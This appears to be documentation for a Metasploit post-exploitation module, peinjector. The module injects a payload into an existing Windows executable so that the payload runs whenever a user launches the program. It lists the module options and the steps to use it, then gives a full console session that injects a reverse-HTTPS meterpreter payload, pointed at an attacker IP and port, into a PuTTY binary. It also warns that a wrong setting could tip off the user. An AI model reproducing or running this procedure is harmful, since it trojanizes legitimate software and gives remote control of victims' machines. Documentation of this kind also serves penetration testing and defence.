 ## Overview
This module inserts a payload into an existing PE file on a remote
machine.  When a user launches the binary, the payload will run
as a thread within the process with the same privs.

## Options
LHOST  IP of host that will receive the connection from the payload.
LPORT  Port for Payload to connect to.
OPTIONS Comma separated list of additional options for payload if needed in 'opt=val,opt=val' format.
PAYLOAD Windows Payload to inject into the targer executable.
SESSION The session to run this module on.
TARGETPE Path of the target executable to Path of the target executable to be injected

## Limitations
This process is not reverse-able.  If you would like to return the
binary to it's original state, save a copy.

THE PAYLOAD WILL NOT SPAWN AN INDEPENDENT PROCESS/THREAD AND THE SESSION
WILL DIE WITH THE BINARY AND/OR WILL KILL THE BINARY WHEN THE SESSION
EXITS.  Be careful closing sessions that were spawned using this method!

If a setting is wrong, it may cause the binary to fail to launch,
alerting the user to possible shinnanigans.

## Vulnerable Application
`Vulnerable` is a bad term; this module inserts shellcode into a pe
file.  That means any Windows pe files are `vulnerable`.
Be aware that some files like calc.exe on later Windows versions
are not entirely normal in their behvior and are not `vulnerable`

## Verification Steps
* get session on target
* `use post/windows/manage/peinjector`
* `set payload <payload>`
* `set lport <lport>`
* `set lhost <lhost>`
* `set targetpe <*.exe>`
* `run`

## Usage
```
meterpreter > sysinfo
Computer        : WIN10X64-1511
OS              : Windows 10 (Build 10586).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use post/windows/manage/peinjector 
msf5 post(windows/manage/peinjector) > show options

Module options (post/windows/manage/peinjector):

   Name      Current Setting                    Required  Description
   ----      ---------------                    --------  -----------
   LHOST                                        yes       IP of host that will receive the connection from the payload.
   LPORT     4433                               no        Port for Payload to connect to.
   OPTIONS                                      no        Comma separated list of additional options for payload if needed in 'opt=val,opt=val' format.
   PAYLOAD   windows/meterpreter/reverse_https  no        Windows Payload to inject into the targer executable.
   SESSION                                      yes       The session to run this module on.
   TARGETPE                                     no        Path of the target executable to be injected

msf5 post(windows/manage/peinjector) > set lhost 192.168.135.111
lhost => 192.168.135.111
msf5 post(windows/manage/peinjector) > set lport 4561
lport => 4561
msf5 post(windows/manage/peinjector) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf5 post(windows/manage/peinjector) > set session 1
session => 1
msf5 post(windows/manage/peinjector) > set targetpe 'C:\users\msfuser\downloads\puttyx64.exe'
targetpe => C:\users\msfuser\downloads\puttyx64.exe
msf5 post(windows/manage/peinjector) > show options

Module options (post/windows/manage/peinjector):

   Name      Current Setting                          Required  Description
   ----      ---------------                          --------  -----------
   LHOST     192.168.135.111                          yes       IP of host that will receive the connection from the payload.
   LPORT     4561                                     no        Port for Payload to connect to.
   OPTIONS                                            no        Comma separated list of additional options for payload if needed in 'opt=val,opt=val' format.
   PAYLOAD   windows/x64/meterpreter/reverse_https    no        Windows Payload to inject into the targer executable.
   SESSION   1                                        yes       The session to run this module on.
   TARGETPE  C:\users\msfuser\downloads\puttyx64.exe  no        Path of the target executable to be injected

msf5 post(windows/manage/peinjector) > run

[*] Running module against WIN10X64-1511
[*] Generating payload
[*] Injecting Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet) into the executable C:\users\msfuser\downloads\puttyx64.exe
[+] Successfully injected payload into the executable: C:\users\msfuser\downloads\puttyx64.exe
[*] Post module execution completed
msf5 post(windows/manage/peinjector) >
```

